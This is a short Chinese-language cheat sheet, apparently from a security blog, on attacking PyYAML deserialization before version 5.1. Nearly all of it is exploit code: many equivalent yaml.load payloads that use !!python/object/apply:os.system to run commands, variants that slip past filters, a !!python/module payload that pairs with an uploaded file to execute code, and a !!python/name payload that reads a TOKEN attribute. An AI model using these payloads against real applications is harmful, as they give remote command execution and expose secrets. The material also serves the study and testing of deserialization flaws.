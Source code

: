 ###### 攻击方式

###### 版本< 5.1

利用条件：

- `yaml.load`或者`yaml.load_all`使用的加载器采用默认加载器 `Constructor`

```python
#以下的利用方式都是等价的，不同写法可绕过部分过滤，可用python/object/new替代
yaml.load('exp: !!python/object/apply:os.system ["whoami"]')

yaml.load("exp: !!python/object/apply:os.system ['whoami']")

# 引号当然不是必须的
yaml.load("exp: !!python/object/apply:os.system [whoami]")

yaml.load("""
exp: !!python/object/apply:os.system
- whoami
""")

yaml.load("""
exp: !!python/object/apply:os.system
  args: ["whoami"]
""")

# command 是 os.system 的参数名
yaml.load("""
exp: !!python/object/apply:os.system
  kwds: {"command": "whoami"}
""")

yaml.load("!!python/object/apply:os.system [whoami]: exp")

yaml.load("!!python/object/apply:os.system [whoami]")

yaml.load("""
!!python/object/apply:os.system
- whoami
""")
# /python/object只能执行无参数函数
yaml.load("""
!!python/object:builtins.copyright {"a": 1}
""")
# /python/module相当于import配合文件上传使用
# 比如上传一个header.py到uploads，文件内容为 import os  os.system('command')
yaml.load('!!python/module:uploads.header')

#python/name与python/module相似，但是可以用来找模块下的属性方法，比如找token
yaml.load('!!python/name:__main__.TOKEN')
123456789101112131415161718192021222324252627282930313233343536373839404142
```
